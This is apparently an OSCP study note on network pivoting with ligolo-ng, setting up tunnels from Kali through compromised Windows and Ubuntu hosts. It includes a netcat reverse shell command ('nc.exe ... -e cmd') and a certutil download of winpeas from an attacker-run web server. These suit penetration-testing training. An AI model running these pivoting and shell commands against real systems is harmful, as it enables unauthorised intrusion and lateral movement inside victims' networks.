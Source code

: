 # Pivoting for OSCP

{% embed url="https://www.youtube.com/watch?v=DM1B8S80EvQ&t" %}

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

If we're on a Active directory machine and attacking from a kali, we have to download windows agent end linux proxy from releases:

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

On kali:

```
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On target machine:

```
./agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

back on ligolo listener:

```
session
1
start 
```

and on another terminal on kali we add the subnet we want to access:

```
sudo ip route add 10.10.14.0/24 dev ligolo
```

### Reverse shells from internal network

Add listener on ligolo proxy ->

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

any connection that comes in to MS01 from port 1234 will be forwarded to our localhost on port 4444

we can check listener with

```
listener_list
```

So now we set up our listener on our kali:

```
rlwrap nc -nlvp 4444
```

Let's say MS01 has internal IP of 10.10.120.131, on our target machine we will change the IP of the listener to ip of MS01:

```
nc.exe 10.10.120.131 1234 -e cmd
```

And from that we should catch our shell up and running

### File transfer from internal network

We go back in the ligolo proxy ->

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

We choose port 80 because we'll run our python webserver on port 80

let's say we host winpeas ->

```
python -m http.server 80
```

on the target machine:

```
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

and the file will be transfered

### Double Pivot

{% embed url="https://www.youtube.com/watch?v=LiaBVuz2B4o" %}

Let's say we have a successfull pivot, we manage to get a shell on a machine and discover a new subnet we want to scan:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

on our kali:

```
sudo ip tuntab add user felix mode tun ligolo1; sudo ip link set ligolo1 up
```

On the ligolo session:

```
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
#check if up:
listener_list
```

Then we transfer our agent on the ubuntu machine we control and type:

```
./agent --connect 172.16.0.2:9001 -ignore-cert
```

On ligolo session:

```
session
2
#check:
ifconfig
```

On our kali:

```
sudo ip route add 10.10.10.0/24 dev ligolo1
```

and ligolo session:

```
start --tun ligolo1
```
